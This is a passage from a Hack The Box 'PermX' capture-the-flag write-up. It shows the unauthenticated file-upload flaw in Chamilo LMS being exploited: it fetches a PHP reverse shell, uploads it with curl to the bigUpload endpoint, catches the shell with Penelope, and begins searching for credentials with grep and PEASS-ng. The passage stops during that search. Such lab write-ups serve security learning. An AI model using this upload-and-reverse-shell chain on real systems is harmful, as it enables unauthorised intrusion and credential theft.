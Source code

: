 # Manual exploitation
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

Update the IP and port number in the file and upload it to the target using the command below.

```bash
$ curl -F 'bigUploadFile=@reverse-shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded
```

### Setting up listener with Penelope.py
I've been experimenting with Penelope after discovering it in a LinkedIn post. I find it very useful as it automatically upgrades my shell, which simplifies my work.
```bash
$ python /opt/penelope/penelope.py 
[+] Listening for reverse shells on 0.0.0.0 🚪4444 
➤  💀 Show Payloads (p) 🏠 Main Menu (m) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```

### Triggering the exploit
To trigger the exploit, navigate to:
`http://<website>/main/inc/lib/javascript/bigupload/files/ `
and open the `.php` file you just uploaded.
```bash
[+] Got reverse shell from 🐧 permx.htb~10.129.195.217 💀 - Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/bbzrta/.penelope/permx.htb~10.129.195.217/permx.htb~10.129.195.217.log 📜
www-data@permx:/$ 
```

# User flag
when the shell spawns, you can see that you are logged in as www-data, 
lets have a look at `/var/www/chamilo` as this is where the learning platform is located. 

As I have done boxes like this before, i know that the chances of us finding the right credentials on the box is very high. usually there is a pair of credentials that is used for database configuration, or sometimes the user's credentials are stored with a breakable hash or even clear case. so i need to comb through  all of these files and see if my eye catches anything. 

There are three ways we can do this:
1. **Manually going through the readable files**:
    - Open and inspect each file for potential credentials.
2. **Using grep to search for the word "password"**: 
	- `grep -arin -o -E '(\w+\w){0,5}password(\W+\w){0,5}' . `
	
3. **Using an automation script like [PEASS-ng](https://github.com/peass-ng/PEASS-ng)**
	- Download and run the PEASS-ng script to automate the search for credentials and other useful information.
## Manually going through the readable files
While inspecting the configuration files for Chamilo, we come across `cli-config.php`. Upon further investigation, we see it tries to pull credentials from another file.
